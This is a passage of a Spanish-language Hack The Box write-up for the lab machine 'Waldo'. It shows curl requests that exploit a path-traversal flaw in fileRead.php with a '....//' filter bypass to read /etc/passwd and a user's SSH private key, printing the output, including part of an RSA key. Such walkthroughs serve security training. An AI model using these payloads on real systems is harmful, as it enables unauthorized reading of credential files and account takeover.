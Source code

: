 <img src="/assets/hackthebox/img/machines/medium/waldo/10.png">
</p>

- Vemos al usuario nobody, operator y postgres con una sh.

```bash
❯ curl -s -X POST "http://10.10.10.87/fileRead.php" -d 'file=./.list/....//....//....//....//....//....//etc/passwd' | jq '.["file"]' -r | grep "sh$"
root:x:0:0:root:/root:/bin/ash
operator:x:11:0:operator:/root:/bin/sh
postgres:x:70:70::/var/lib/postgresql:/bin/sh
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
```

- Si enumeramos su directorio personal encontramos su clave privada dentro de la carpeta .ssh.

```bash
❯ curl -s -X POST "http://10.10.10.87/fileRead.php" -d 'file=./.list/....//....//....//....//....//....//home/nobody/.ssh/.monitor' | jq '.["file"]' -r
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
```